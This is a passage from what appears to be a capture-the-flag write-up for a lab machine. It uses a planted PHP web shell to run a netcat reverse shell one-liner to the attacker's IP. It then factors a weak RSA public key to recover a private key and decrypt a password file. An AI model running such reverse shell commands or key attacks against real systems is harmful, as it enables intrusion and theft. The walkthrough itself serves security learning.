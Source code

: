 This outputs that we are _www-data_ and confirms that command execution works so we can start a reverse shell session:
```markdown
http://10.10.10.31/images/test.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.40.9+9001+>/tmp/f
```

The listener on my IP and port 9001 starts a reverse shell connection on the box.

## Privilege Escalation

In the home directory of the user _decoder_ are files that we will download to find a way to escalate privileges to that user.
The files are:
- decoder.pub
  - Public key
- pass.crypt
  - Encrypted content

The task is to decrypt the _pass.crypt_ file.

### Manual RSA decryption

As this is a public key it is decrypted with **RSA** and this can be decrypted with math.

```python
from Crypto.PublicKey import RSA

f = open("decoder.pub","r")
key = RSA.importKey(f.read())
print key.n
print key.e
```

```markdown
- n = 85161183100445121230463008656121855194098040675901982832345153586114585729131
- e = 65537
```

We need to find the two factors (prime numbers) that equal to _n_. I used this [Online Factorization Calculator](https://www.alpertron.com.ar/ECM.HTM).
These numbers get called _p_ and _q_:
```markdown
- p = 280651103481631199181053614640888768819
- q = 303441468941236417171803802700358403049
```

We need one more number that gets called _m_:
```markdown
- m = n-(p+q-1)
```

With these numbers, it is possible to write a script to generate the private key. This script can found in this repository and is called **charon_rsa.py**.
After executing it, it outputs the private key.

Copying the contents into a file _decoder.priv_ and decrypting the _pass.crypt_ with it:
```markdown
openssl rsautl -decrypt -inkey decoder.priv < pass.crypt
```
